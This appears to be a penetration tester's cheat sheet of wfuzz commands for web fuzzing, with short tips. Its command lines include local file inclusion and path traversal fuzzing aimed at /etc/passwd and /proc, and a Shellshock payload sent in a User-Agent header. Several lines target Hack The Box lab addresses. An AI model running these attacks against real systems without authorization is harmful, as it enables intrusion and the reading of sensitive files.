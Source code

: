 
use wordlists in /usr/share/seclists/Fuzzing/

FUZZ KEYWORD IS THE PLACEHOLDER FOR THE WORDLIST!

you can even fuzz in post requests

fuzz cgi-bin for shellshock or for other scripts

FUZZ php values like test.php?path=FUZZ

FUZZ PROCESS ID NUMBER

FUZZ FOR COMMON WEB EXTENSION!

FUZZ php parameters /opt/seclists/discovery/web-content/burp-parameters.txt!

you can even fuzz cookies

-H to add a


### wfuzz

wfuzz fuzz example


`wfuzz -u http://$IP/include.php?path=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt`

wfuzz hide words

`wfuzz -u http://$IP/include.php?path=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hw 100`

wfuzz hide codes

`wfuzz -u http://$IP/include.php?path=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 402`

wfuzz hide chars

`wfuzz -u http://$IP/include.php?path=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 1337`

wfuzz regex

`wfuzz -H "User-Agent: () { :;}; echo; echo vulnerable" --ss vulnerable -w cgis.txt http://localhost:8000/cgi-bin/FUZZ`

wfuzz proc id number

`wfuzz -u http://10.10.11.154/index.php?page=../../../../../../proc/FUZZ/status -w /home/makider/Desktop/fuzzpid.txt --hw 0 -c -f htb/retired/pids.txt`


wfuzz php parameters

`wfuzz -c --hh 0 -w /opt/seclists/discovery/web-content/burp-parameters.txt http://10.10.10.10/image.php?FUZZ=/etc/passwd`

wfuzz subdomains

`wfuzz -c --hc 404,302 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.timing.htb' http://timing.htb/`
